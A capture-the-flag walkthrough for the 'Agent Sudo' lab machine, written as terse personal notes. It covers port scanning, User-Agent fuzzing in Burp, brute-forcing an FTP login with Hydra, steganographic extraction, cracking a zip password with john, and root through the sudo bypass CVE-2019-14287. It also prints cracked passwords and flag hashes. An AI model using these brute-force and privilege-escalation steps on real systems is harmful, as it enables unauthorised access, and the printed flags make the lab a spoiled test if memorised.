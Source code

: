 ====Agent Sudo Flutter July 24 2021====

'IP 10.10.219.45</br>
	$ export IP=10.10.219.45'</br>
'MYIP 10.10.213.35</br>
	$ export MYIP=10.10.213.35'

# Recon #

----------------
	Scanning
----------------

- nmap -sV -sC -T5 -oN nmap_initial $IP

		'''
		21/tcp open  ftp     vsftpd 3.0.3
		22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
		80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
			http-server-header: Apache/2.4.29 (Ubuntu)
			http-title: Annoucement
		'''

---------------------
	Visiting Site
---------------------

	'''
	Dear agents,

	Use your own codename as user-agent to access the site.

	From,
	Agent R 
	'''
Codename? Guessing the "Agent [letter]" is what they mean

- Intercepting with Burp
	> Sniper 
		>> target field: User-Agent 
		>> wordlist of a-zA-Z 
		>> don't exclude HTTP headers and grep for "10, 20, 30, 40, 50"
			//looking for "30" for redirects but more information is always nice
			< 1 redirect found! > User-Agent: C

	> Intercept
		>> set User-Agent: C

		 '''
		 Attention chris,
		
		 Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
		
		 From,
		 Agent R
		 '''


### Possible Users ###

- Chris
- R?
- J?


# Intrusion #

### ChrisFTP ###

- ftp $IP</br>
	Name: chris</br>
	Pass: crystal

ftp > ls

	'''
	-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
	-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
	-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
	'''
	
ftp > mget To_agentJ cute-alien.jpg cutie.png

ftp > exit


- To_agentJ.txt	

		'''
		Dear agent J,

		All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

		From,
		Agent C
		'''


### Steganography ###

- binwalk cutie.png -e
- ls _cutie.png.extracted

		'''
		365  365.zlib  8702.zip  To_agentR.txt
		'''
	8702.zip is password protected
		(see #Passwords#)

- 7z e 8702.zip
	> pass: alien
- To_agentR.txt

		'''
		Agent C,

		We need to send the picture to 'QXJlYTUx' as soon as possible!

		By,
		Agent R
		'''
	> QXJlYTUx
		(see #Passwords#)


- steghide extract -sf cute-alien.jpg > message.txt
	pass: Area51
		(see #Passwords#)
	

- message.txt

		'''
		Hi james,

		Glad you find this message. Your login password is hackerrules!

		Don't ask me why the password look cheesy, ask agent R who set this password for you.

		Your buddy,
		chris
		'''


### SSH ###

- ssh james@$IP
	pass: hackerrules!

- ls

		'''
		Alien_autospy.jpg  user_flag.txt
		'''

*Flag Found*<details>
	<summary>Spoiler</summary>
		/home/james/user_flag.txt: b03d975e8c92a7c04146cfa7a5a313c7
</details>


# PrivEsc #

- sudo -l
	> password protected, tried "hackerrules!" and succeeded
	
		"(ALL, !root) /bin/bash"

- searching "(ALL, !root) /bin/bash"</br>
		
		CVE: 2019-14287
		"sudo -u#-1 /bin/bash"

- root gained

*Flag Found*<details>
	<summary>Spoiler</summary>
	/root/root.txt: b53a02f55b57d4439e3341834d70c062
</details>


# Passwords #

----------------
	Cracking
----------------

- chris' ftp
	hydra -l chris -P rockyou.txt $IP ftp -o chris_pass
	pass: crystal

- 8702.zip
	zip2john steno/_cutie.png.extracted/8702.zip > 8702john
	john 8702john
	pass: alien

- QXJlYTUx
	CyberChef
	base64: Area51

---------------
	Exposed
---------------

- message.txt
	user: james
 	pass: hackerrules!
